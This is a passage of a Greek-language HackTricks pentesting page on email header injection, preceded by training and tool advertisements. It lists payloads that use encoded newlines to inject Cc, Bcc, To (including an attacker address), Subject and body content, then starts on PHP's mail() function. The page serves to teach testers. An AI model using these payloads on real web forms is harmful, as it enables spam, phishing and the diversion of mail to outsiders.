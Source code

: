 # Email Injections

<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Χρησιμοποιήστε [**Trickest**](https://trickest.com/?utm\_source=hacktricks\&utm\_medium=text\&utm\_campaign=ppc\&utm\_content=email-injections) για να δημιουργήσετε και να **αυτοματοποιήσετε ροές εργασίας** που υποστηρίζονται από τα **πιο προηγμένα** εργαλεία της κοινότητας.\
Αποκτήστε πρόσβαση σήμερα:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=email-injections" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Υποστηρίξτε το HackTricks</summary></details>
{% endhint %}

## Εισαγωγή σε αποσταλμένο e-mail

### Εισαγωγή Cc και Bcc μετά το επιχείρημα αποστολέα
```
From:sender@domain.com%0ACc:recipient@domain.co,%0ABcc:recipient1@domain.com
```
Το μήνυμα θα σταλεί στους λογαριασμούς του παραλήπτη και του παραλήπτη1.

### Inject argument
```
From:sender@domain.com%0ATo:attacker@domain.com
```
Το μήνυμα θα σταλεί στον αρχικό παραλήπτη και στον λογαριασμό του επιτιθέμενου.

### Inject Subject argument
```
From:sender@domain.com%0ASubject:This is%20Fake%20Subject
```
Ο ψεύτικος τίτλος θα προστεθεί στον αρχικό τίτλο και σε ορισμένες περιπτώσεις θα τον αντικαταστήσει. Εξαρτάται από τη συμπεριφορά της υπηρεσίας email.

### Αλλαγή του σώματος του μηνύματος

Εισάγετε μια αλλαγή γραμμής δύο γραμμών, στη συνέχεια γράψτε το μήνυμά σας για να αλλάξετε το σώμα του μηνύματος.
```
From:sender@domain.com%0A%0AMy%20New%20%0Fake%20Message.
```
### Εκμετάλλευση της συνάρτησης mail() της PHP
```bash
# The function has the following definition:

php --rf mail

Function [ <internal:standard> function mail ] {
- Parameters [5] {
Parameter #0 [ <required> $to ]
Parameter #1 [ <required> $subject ]
Parameter #2 [ <required> $message ]
Parameter #3 [ <optional> $additional_headers ]
Parameter #4 [ <optional> $additional_parameters ]
}
```